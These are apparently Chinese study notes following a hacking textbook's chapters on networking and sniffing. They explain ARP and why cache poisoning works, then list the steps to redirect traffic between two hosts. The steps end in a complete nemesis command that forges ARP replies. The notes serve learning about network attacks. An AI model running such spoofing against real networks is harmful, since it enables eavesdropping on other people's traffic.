 # 4
## 4.2.6 
* telnet 程序会自动执行DNS查找，将域名转换成IP地址。

## 4.2.7
* 127.0.0.1 是一个特殊的回环地址，它路由到本机

## 4.3
* 会话层（第5层），使用套接字接口socket，实现从一个主机向另一个主机发送数据。
* 传输层（第4层），TCP协议提供可靠性和传输控制。
* 网络层（第3层），IP协议提供寻址和包级别的通信。
* 数据链路层（第2层），以太网提供端口间的寻址ARP协议。

## 4.3.1
* ARP请求是发往广播地址的消息。
* ARP协议会生成一个 IP at MAC 的表。

## 4.4.4
* 在交换网络中，嗅探的第一步是欺骗（spoofing）。

### ARP中令人感兴趣的3个小细节：
* 1、ARP协议（包括其他协议），无法确定源地址就是源机器地址；
* 2、ARP的应答会更新ARP缓存（除非ARP缓存中相应的项被标记为“永久”）；
* 3、即使系统没有发出ARP请求，也会接受ARP应答。

#### ARP缓存中毒：是供攻击者重写ARP缓存的技术。可进行网络流量的窃听。

#### *网络交换设备仅基于MAC地址过滤流量。

#### 由于ARP缓存超时的存在，系统会定期发动真实的ARP请求，并收到真实的应答。为持续进行重定向攻击，所以缓存投毒也要持续循环进行。

### 流量重定向步骤：
* 1、确定访问者和被访问者的IP地址和Mac地址
* (1) ping -c 1 192.168.0.1 // 访问者ip（A）,生成对应的ARP缓存
* (2) ping -c 1 192.168.0.118 // 被访问者ip（B）,生成对应的ARP缓存
* (3) arp -na // 查看缓存列表，缓存列表中可能查找不到对应的缓存记录（可以通过Wireshark抓包获取）
    * 得到:
    * 192.168.0.1 at 00:50:18:00:0F:01
    * 192.168.0.118 at 00:C0:F0:79:3D:30
    * localhost 192.168.0.193 at 00:00:AD:D1:C7:ED
    * ps：ping 使用的是icmp协议
    * MAC地址的长度为48位(6个字节，前3个字节代表网络硬件制造商的编号)ether 8c:85:90:79:28:3f
* 2、定期发送伪造的ARP应答
* (1) 使用 Nemesis（[ˈneməsɪs] 宿敌，报应）命令行数据包注入工具，注入伪造的ARP应答包。
* (2) 注入方式(伪造 A 到 B 的ARP应答)：sudo nemesis arp -v -r -d eth0 -S 192.168.0.1 -D 192.168.0.118 -h 00:00:AD:D1:C7:ED -m 00:C0:F0:79:3D:30 -H 00:00:AD:D1:C7:ED -M 00:C0:F0:79:3D:30

#### 在C语言中，typedef将一个符号定义为一个数据类型的别名。

